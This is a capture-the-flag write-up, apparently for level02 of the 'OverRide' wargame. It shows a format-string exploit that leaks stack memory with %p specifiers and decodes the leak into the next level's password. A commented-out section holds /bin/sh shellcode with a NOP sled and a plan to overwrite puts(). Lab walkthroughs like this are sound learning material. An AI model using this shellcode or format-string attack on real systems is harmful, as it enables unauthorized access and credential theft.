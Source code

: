 # Level 02
*password : PwBLgNa8p8MTKW57S7zxVAQCxnCpV8JqTTs9XEBv*

## Analyze

```
scp -P 4242 level02@192.168.56.109:level02 binary/
```

## printf exploit ?

<!-- use printf to overwrite the return of `puts()` with our shellcode ?

shellcode : `\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x50\x89\xe2\x53\x89\xe1\xb0\x0b\xcd\x80`
```
$ export SHELLCODE=$(python -c 'print "\x90" * 200 + "\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x50\x89\xe2\x53\x89\xe1\xb0\x0b\xcd\x80"')
```
```
$ scp -P 4242 level02/Ressources/getenv.c  level02@192.168.56.109:/tmp/
```
```
$ cd /tmp
$ gcc getenv.c
$ cd -
/home/users/level02
$ level02@OverRide:~$ /tmp/a.out
0x7fffffffe822
```
- 7FFFFF : 8388607
- FFE822 : 16771106
16771106 - 8388603
8382495

puts() address : 0x0000000000200b5a
python -c 'print "\x5a\x0b\x20" %8388604x %hn %8382496x %hn"' -->
offset = 22\
40 / 8 = 5
```
level02@OverRide:~$ python -c 'print " %22$p %23$p %24$p %25$p %26$p"' > /tmp/level02 ; cat /tmp/level02 | ./level02 
===== [ Secure Access System v1.0 ] =====
/***************************************\
| You must login to access this system. |
\**************************************/
--[ Username: --[ Password: *****************************************
 0x756e505234376848 0x45414a3561733951 0x377a7143574e6758 0x354a35686e475873 0x48336750664b394d does not have access!
level02@OverRide:~$ 
```

0x756e505234376848 => 4868373452506e75 = Hh74RPnu\
0x45414a3561733951 => 51397361354a4145 = Q9sa5JAE\
0x377a7143574e6758 => 58674e5743717a37 = XgNWCqz7\
0x354a35686e475873 => 7358476e68354a35 = sXGnh5J5\
0x48336750664b394d => 4d394b6650673348 = M9KfPg3H

password: `Hh74RPnuQ9sa5JAEXgNWCqz7sXGnh5J5M9KfPg3H`
